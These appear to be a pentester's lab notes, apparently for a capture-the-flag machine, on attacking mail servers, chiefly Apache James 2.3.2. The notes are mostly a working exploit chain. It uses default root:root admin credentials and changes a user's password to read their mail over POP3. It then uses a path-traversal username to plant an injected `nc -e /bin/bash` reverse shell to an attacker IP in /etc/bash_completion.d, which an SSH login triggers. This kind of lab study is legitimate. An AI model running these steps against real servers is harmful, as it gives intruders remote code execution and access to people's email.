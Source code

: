 hMailServer (appear on port 587 SMTP on nmap scan)
Apache James (4555 rsip or james-admin, 119 nntp)

```
nc -vn 10.129.34.217 25
```
- get some info about SMTP server running

James 2.3.2
```
nc 10.129.34.217 4555
```
- will request login, try root:root default creds
- `HELP` to see commands. important ones:
	- `listusers` show users
	- `setpassword mindy password123` change pw for mindy
	- `adduser name password` create user
		- `adduser ../../../../../../../../etc/bash_completion.d 0xdf0xdf`
			- creates user with folder in root directory to access emails (when any user logs in, triggers bash completion script)
```
telnet 10.129.226.162 110
```
- connect to POP3 server
- Interesting commands:
	- `USER mindy` sets username to mindy
	- `PASS password` set pw to password
	- `LIST` list emails
	- `RETR 1` read first email (`RETR 2` to read 2nd etc)
```
telnet 10.129.226.162 25
```
- connect to SMTP server. Commands:
	- `EHLO dank` introduce client (myself aka dank) to server
		- 250 response code = success
	- `MAIL FROM: <'dank@10.10.14.47>` set sender's email address
	- `RCPT TO: <../../../../../../../../etc/bash_completion.d>` specifies recipient of email
		- write to content to file on server
	- `DATA` signals content of email will follow
		- 354 code indicates server is ready to recieve email data
	- `FROM: 0xdf@10.10.14.47` first line of email content 
	- `'` injection to break current context (rest will be created as the file in bash_completion.d file)
	- `/bin/nc -e /bin/bash 10.10.14.133 443` shell saved as completion script
	- `.` end of email
		- 250 code = message recieved and accepted
	- `quit`
- start listener `nc -lvnp 443` and login with ssh to trigger script for shell `ssh mindy@10.129.226.162`

`